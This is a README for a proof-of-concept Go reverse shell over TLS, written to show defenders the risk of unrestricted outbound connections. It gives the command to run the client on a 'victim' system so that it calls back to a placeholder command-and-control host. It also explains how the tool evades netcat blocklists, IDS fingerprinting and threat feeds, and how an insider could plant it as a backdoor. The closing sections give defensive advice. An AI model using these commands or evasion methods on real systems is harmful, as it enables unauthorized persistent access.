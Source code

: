 # A Simple Reverse Shell Framework over TLS
This is a PoC reverse shell written in Go. 

Purely for educational purposes. Use responsibly.

# Usage
Start command and control server (e.g. replace -linux with -darwin if your server is a macOS one) and select a port of your choosing (port 7788 is used below)
```bash
server-linux 7788
```

Now connect from the target/victim system, specifying the hostname (_command-and-control-server_) of the C&C server, and port that the server is listening on (7788 in our example)
```bash
client-linux command-and-control-server-hostname 7788
```


# Why?
Many network system defenders may not realise the risk associated with arbitrary outbound connection from protected systems. They may still be under the illusion that locking down and blocking inbound connections may be sufficient to protect critical systems.

The purpose is to help point out unsafe assumptions with a simple demo

## You need VPN, 2FA, etc in order to get on my network
This tool completely bypasses your protection, all it needs is an insider willing to plant a tool such as this as a backdoor to give them persistent access which circumvents all your VPN and 2FA technologies.  

Think of that sysadmin that is about to be fired. A disgruntled employee or other malicious insiders could build a similar tool to grant themselves permanent access. 

## I will block netcat/nc installation on my systems
Netcat is a very versatile and useful tool, which has very legitimate applications. However, it is also a traditional tool of choice for obtaining reverse shells. So, it may seem reasonable that blocking/blacklisting it may reduce the risk significantly.

Well, this PoC is not netcat and does not require it. In fact it is a simple plain old Go program. It is so simple as to not require any external library: it is a pure Go implementation, using only built-in primitives. Note that it is not very difficult to evade fingerprint-based scanning technologies

## I will install a network intrusion detection and fingerprint the traffic from this tool
Well, that's a good idea. A network intrusion detection system can do many things and can be used to detect attacks like this, for example, because netcat is done over plain TCP connection, it is possible to inspect packets and fingerprint data exfiltration and similar bad behaviour. 

The problem is that, unlike many similar approaches, this tool works over TLS, so good luck with that.

## I will use threat feeds to fingerprint all your command and control servers as well as certificates that may be used for TLS
Good thinking, but this will not be a reliable or efficient method for detection. This is because the tool can be configured to communicate with any server of the attacker's choosing, so they can spin up a server anywhere in the world and install arbitrary certificates on it, and you are left chasing shadows 

# What is the solution?
You might be wondering ...

## What then is a reliable way to defend against this threat?
There are two strong controls that you can apply to mitigate this threat:

1. *Application Whitelisting*: allowing *only* the applications that you have explicitly permitted to run, to be run on your server, and only those! This is perhaps, the strongest control, but it is not guaranteed because one of your whitelisted applications may itself be compromised and be used as an attack vector.
   
2. *Network lock-down*: if your system does not need to go out to the Internet, block outbound and inbound connections on the firewalls and also using host-based firewalls. Note that even if you totally blocked outbound Internet access, it is not a guaranteed solution. This is because if the protected server is allowed to make outbound connections directly or indirectly to another internal system that in turn has the capability to make outbound Internet connection, this tool can be chained together starting from your sensitive system, and trampolining via other internal systems to ultimately reach one that could communicate directly outbound to the Internet.

Many of the ideas suggested above, while not foolproof, are part of a reasonable defense-in-depth strategy for mitigating this threat.

The key message is to *understand your network and services*! If you know precisely which remote servers and ports that they are allowed to communicate with, that is a great piece of information that can be used to reduce the threat. For example, you may whitelist precisely those remote servers and ports as the only outbound connections you wish to allow as well as which applications are allowed to connect on which ports and to what destinations. 

Where outbound Internet connection is necessary, *consider network anomaly detection* to help you _possibly_ detect unusual connections that may be an indicator of compromise.


# Warning and Disclaimers
This tool is only provided for educational purposes. Do not use it to attack systems. The author assumes no liability or responsibility for anything you do with it or that it does to any system you use it on. See LICENSE for further detail.

## A demo should still use secure communications
This tool is intended to highlight a threat to protected systems and to demonstrate the difficulty in effectively defending against the threat.

It is a very simple program that could be used to demonstrate the importance of monitoring outbound connections from your protected environment for the existence of maliciously planted backdoors. 

However, it is important to do that over TLS too as you'd not like third parties to sniff or inject themselves into your demo. 

CAUTION: Please note that the TLS to the target mitigates casual sniffing and injection risks, however it does not entirely eliminate man-in-the-middle attacks because the client does not verify end certificates. Consider certificate pinning or similar approaches if you'd like to use this technique on a more permanent basis or for other legitimate/useful remote shell designs!
